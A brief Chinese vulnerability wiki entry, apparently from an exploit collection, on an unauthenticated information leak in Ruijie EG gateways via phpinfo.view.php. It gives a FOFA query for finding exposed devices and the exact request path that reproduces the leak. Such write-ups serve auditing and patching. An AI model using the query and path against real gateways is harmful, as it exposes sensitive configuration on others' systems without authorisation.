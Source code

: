 # 锐捷EG易网关 phpinfo.view.php 信息泄露漏洞

## 漏洞描述

锐捷EG易网关 部分版本 phpinfo.view.php文件权限设定存在问题，导致未经身份验证获取敏感信息

## 漏洞影响

> [!NOTE]
>
> 锐捷EG易网关

## FOFA

> [!NOTE]
>
> app="Ruijie-EG易网关"

## 漏洞复现

查看源码发现phpinfo文件 

![](http://wikioss.peiqi.tech/vuln/ruijie-31.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

访问 url

```
/tool/view/phpinfo.view.php
```

![](http://wikioss.peiqi.tech/vuln/ruijie-32.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)